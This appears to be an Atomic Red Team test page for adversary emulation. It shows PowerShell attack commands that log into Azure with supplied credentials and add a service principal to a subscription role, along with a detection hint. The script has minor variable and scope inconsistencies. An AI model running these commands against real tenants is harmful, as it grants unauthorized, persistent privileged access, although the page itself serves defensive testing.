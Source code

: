 ##### Get Prereq Commands:

```powershell
Install-Module -Name Az.Resources -Force
```

<br/>
<br/>

## Atomic Test #7 - Azure - adding service principal to Azure role in subscription

The adversaries want to add service principal to some Azure role, also called Azure resource role. Threat actor
may be interested primarily in highly privileged roles, e.g. Owner, Contributor.
By default, the role Reader is assigned to service principal in this test.

New-AzRoleAssignment cmdlet could be also use to assign user/service principal to resource, resource group and management group.

The account you use to run the PowerShell command must have Microsoft.Authorization/roleAssignments/write
(e.g. such as User Access Administrator or Owner) and the Azure Active Directory Graph Directory.Read.All
and Microsoft Graph Directory.Read.All permissions.

Detection hint - check Operation Name "Create role assignment" in subscriptions Activity Logs.

**Supported Platforms:** Iaas:azure

**auto_generated_guid:** c8f4bc29-a151-48da-b3be-4680af56f404

#### Inputs:

| Name                   | Description                       | Type   | Default Value        |
| ---------------------- | --------------------------------- | ------ | -------------------- |
| username               | Azure AD username                 | string | jonh@contoso.com     |
| password               | Azure AD password                 | string | p4sswd               |
| service_principal_name | Name of the service principal     | string | SuperSP              |
| role_name              | Name of the targeted Azure role   | string | Reader               |
| subscription           | Name of the targeted subscription | string | Azure subscription 1 |

#### Attack Commands: Run with `powershell`!

```powershell
Import-Module -Name Az.Resources
$PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
Connect-AzAccount -Credential $Credential

$sp = Get-AzADServicePrincipal | where-object {$_.DisplayName -eq "#{service_principal_name}"}
if ($sp -eq $null) { Write-Warning "Service Principal not found"; exit }
$subscription = Get-AzSubscription | where-object {$_.Name -eq "#{subscription}"}
if ($subscription -eq $null) { Write-Warning "Subscription not found"; exit }
$role = Get-AzRoleDefinition | where-object {$_.Name -eq "#{role_name}"}
if ($role -eq $null) { Write-Warning "Role not found"; exit }

New-AzRoleAssignment -ObjectId $sp.id -RoleDefinitionId $role.id -Scope /subscriptions/$subscription
Write-Host "Service Principal $($sp.DisplayName) was added to $($role.Name) role in subscriptions $($subscriptions.Name)"
```
